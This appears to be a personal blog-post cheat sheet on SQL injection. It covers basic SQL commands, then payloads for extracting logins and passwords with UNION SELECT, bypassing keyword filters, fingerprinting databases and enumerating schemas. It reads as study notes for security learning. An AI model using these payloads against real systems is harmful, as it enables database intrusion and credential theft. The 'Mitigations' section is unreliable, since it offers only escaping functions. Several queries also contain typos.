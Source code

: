 ```yaml
---
layout: post
title:  "SQL injections"
---
```

# SQL memo
## Data types
* **INT**: signed integer on 4 bytes
* **DATE** and **TIME**: self-explanatory. Moron.
* **VARCHAR**: strings
* **BLOB** and **TEXT**: binary object of big size
* **ENUM** and **SET**: string in a list

## Commands
{% highlight sql %}
SHOW databases;
CREATE database database_name;
USE database_name;
CREATE TABLE users (id INT NOT NULL, login VARCHAR(20), password VARCHAR(40));
DESC users; # Display the structure of the table
INSERT INTO table_name VALUES(123, 'test_user', 'test_pass'); # Clear-text password
INSERT INTO table_name VALUES(1234, 'sec_user', password('test_pass'));
ALTER TABLE users MODIFY password VARCHAR(41);
UPDATE users SET password=password('better_pass_123') WHERE login='test_user';
SELECT * FROM users WHERE login='test_user' AND password=password(better_pass_123');
DROP TABLE users;
{% endhighlight %}



# Simple injections
* `'`, `''` (SQL-escaped single quote)
* `test' OR 1=1 --`
* `UNION SELECT login, password FROM users #`
* Select the line using **LIMIT**: `UNION SELECT login, password FROM users LIMIT 1,1 #`
* Balancing the quotes: `test' OR 'a' ='a`
* Wildxard character: `%``
* Numerics: `3-1`, `67-ASCII('A')`, `51-ASCII(1)` (implicit numeric to string cast)
* Test if injection in **SELECT**: input `1` results in `SELECT 1,..` so first column is filled with 1s
* Return number of lines: `aa' UNION SELECT count(*), users.password FROM users; --`
* `' UNION SELECT users.password, users.password FROM users LIMIT 1 OFFSET 1; --`


# Mitigations
* PHP `htmlentities()`
* PHP `addslashes()`. Can be bypassed if another encoding is used.



# Strategies
* Get the version string of the database
* Use string concatenation techniques to produce legitimate input
* MySQL ~ Sybase
* Blind injection: insert data into a user field, such as a profile name
* Blind injection: best to look for interesting columns names rather than tables (use `LIKE '%pass%'` for password-related columns)
* Second order injections



# Tactics
* URL-encode HTTP-related characters
* Oracle globally accessible table: `DUAL`. Useful to complete **SELECT** statements
* Return strings through numeric columns: `ASCII` and `SUBSTRING` functions to return one character at a time

## SELECT filtering bypasses
```
SeLeCt
%00SELECT
SESELECTLECT
%53%45%4C%45%43%54
%2553%2545%254C%2545%2543%2554
SE/*MySQL only*/LECT
```

## Comments as spaces
* `SELECT/*foo*/password/*bar*/FROM/*foobar*/users`
* MySQL: comments inside keywords `SE/*damn!*/LECT/*foo*/password/*bar*/FROM/*foobar*/users`

## Database fingerprinting
* Oracle: `BITAND(1,1)-BITAND(1,1)`
* MS-SQL: `@@PACKED_RECEIVED-@@PACKED_RECEIVED`
* MySQL: `CONNECTION_ID()-CONNECTION_ID()`
* MySQL version fingerprinting: inline comment `/*!32302 and 1=0*/` ignored if database version doesn't match `32302` version string. Else, interpreted as `and 1=0`
* Comments:
  * MS-SQL, MySQL (with a space after double hyphens), Oracle: `--`
  * `#`
  * `;`
* MS-SQL and MySQL version string: `' UNION SELECT @@version, NULL-- `
* Oracle version string: `' UNION SELECT banner, NULL, NULL FROM v$version--`


## String
* Concatenation useful to return multiple results when only one **VARCHAR** columns found
* Oracle concatenation: `'||'test`
* MS-SQL concatenation: `'+'test`
* MySQL concatenation: `' 'test` (mind the space)
* Build Oracle string: `CHR(97)||CHR(98)='ab'`
* Build MS-SQL string: `CHAR(97)+CHAR(98)='ab'`


## Blind injections
* Table structure with MS-SQL, MySQL, SQLite and Postgresql: `' UNION SELECT table_name,column_name FROM information_schema.columns--`
* Table structure with MS-SQL: `SELECT table_name+':'+column_name FROM information_schema.columns--`
* Table structure with MySQL: `SELECT CONCAT(table_name, ':', column_name) FROM information_schema.columns--`
* Table structure with SQLite: `' UNION SELECT name, sql FROM sqlite_master;`
* Table structure with Oracle:
  * `' UNION SELECT table_name,column_name FROM all_tab_columns;`
  * `' UNION SELECT table_name,column_name FROM user_tab_columns;`
  * `SELECT table_name||':'||column_name FROM all_tab_columns;`
* Number of columns:
  * `ORDER BY 1`, `ORDER BY 2` ...
  * `UNION SELECT NULL--`, `UNION SELECT NULL, NULL--` ... Should be checked by reviewing raw response. Add `FROM DUAL` if Oracle.
* Discovering string columns: `SELECT 'a', NULL, NULL`, `SELECT NULL, 'a', NULL`, `SELECT NULL, NULL, 'a'`
* Name of columns: `ORDER BY "column_name"`
* Length of a string: TODO
* Number of values for **INSERT** statements: iteratively add fields
  ```
  test')--
  test', 1)-- Implicitly casted to a string in most DBMS
  test', 1, 2000)--  Implicitly casted to a date in most DBMS
  ...
  ```
* **SELECT** statement with unknown column type: `SELECT NULL, password`

